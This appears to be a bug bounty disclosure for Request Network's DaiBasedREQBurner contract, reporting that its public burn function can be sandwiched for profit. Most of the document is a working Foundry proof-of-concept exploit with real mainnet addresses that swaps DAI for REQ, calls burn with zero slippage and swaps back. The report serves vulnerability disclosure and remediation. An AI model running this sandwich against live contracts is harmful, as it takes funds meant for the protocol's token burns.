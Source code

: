 # `burn(uint256,uint256)` function should be have `onlyOwner` modifier

- Protocol: [Request Network](https://request.network/)
- Severity: Critical

## Target(s)

- [DaiBasedREQBurner](https://etherscan.io/address/0x2cfa65dcb34311293c6a52f1d7beb8f4e31e5117#code)

## Impact(s)

- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Bug Description

Anyone can call function `burn` with arbitrary `_minReqBurnt` parameter this makes a sandwich attack possible

Before performing the burn we could buy a lot of REQ token Then we call the burn function with `_minReqBurnt` 0, as in swap we assign 0 to `amountOutMin` of swap to UniswapV2, this swap could return 0 tokens After that sell the REQ token for DAI and we have profit

There are several transactions with important amount and it is very easy to perform this attack

## Impact

- Loss of funds from the REQ token that would have to be burned

## Recommendation

Add `onlyOwner` modifier to the burn function

## References

- https://docs.uniswap.org/contracts/v2/reference/smart-contracts/router-02#swapexacttokensfortokens

## Proof of Concept

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "forge-std/StdUtils.sol";
import {IERC20} from "forge-std/interfaces/IERC20.sol";

contract PoC is Test {
    IUniRouter router = IUniRouter(0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D);

    IDaiBasedREQBurner burner = IDaiBasedREQBurner(0x2CFa65DcB34311293c6a52F1D7BEB8f4E31E5117);
    IERC20 DAI = IERC20(0x6B175474E89094C44Da98b954EedeAC495271d0F);
    IERC20 REQ = IERC20(0x8f8221aFbB33998d8584A2B05749bA73c37a938a);

    function setUp() public {
        // Fork
        vm.selectFork(vm.createFork("https://eth.llamarpc.com"));
        // Block before TX: 0xbbe7eec10c32d67855229f76f5ef7d373074889a58efaa0e4e2c3b94561b99d1
        vm.rollFork(14792380);
    }

    function testSandwich() public {
        uint256 startDAIBal = 50000 ether;
        deal(address(DAI), address(this), startDAIBal);

        address[] memory path = new address[](2);
        path[0] = address(DAI);
        path[1] = address(REQ);

        DAI.approve(address(router), type(uint256).max);
        router.swapExactTokensForTokens(
            startDAIBal,    // amountIn
            0,              // amountOutMin
            path,           // path
            address(this),  // to
            block.timestamp //deadline
        );

        uint256 burnedAmount = burner.burn(0, 0);

        path[0] = address(REQ);
        path[1] = address(DAI);

        REQ.approve(address(router), type(uint256).max);
        router.swapExactTokensForTokens(
            REQ.balanceOf(address(this)), // amountIn
            0,                            // amountOutMin
            path,                         // path
            address(this),                // to
            block.timestamp               //deadline
        );

        console.log("Burned REQ amount:", burnedAmount);
        console.log();
        console.log("Start DAI balance:", startDAIBal);
        uint256 endDAIBal = DAI.balanceOf(address(this));
        console.log("End DAI balance:", endDAIBal);
        console.log("Profit in DAI:", endDAIBal - startDAIBal);
    }

    function testNormal() public {
        uint256 burnedAmount = burner.burn(21000000000000000000000, 0);
        console.log("Burned REQ amount:", burnedAmount);
    }
}

interface IDaiBasedREQBurner {
    function burn(
        uint _minReqBurnt,
        uint256 _deadline
    ) external returns(uint256);
}

interface IUniRouter {
    function swapExactTokensForTokens(
        uint amountIn,
        uint amountOutMin,
        address[] calldata path,
        address to,
        uint deadline
    ) external returns (uint[] memory amounts);
}
```
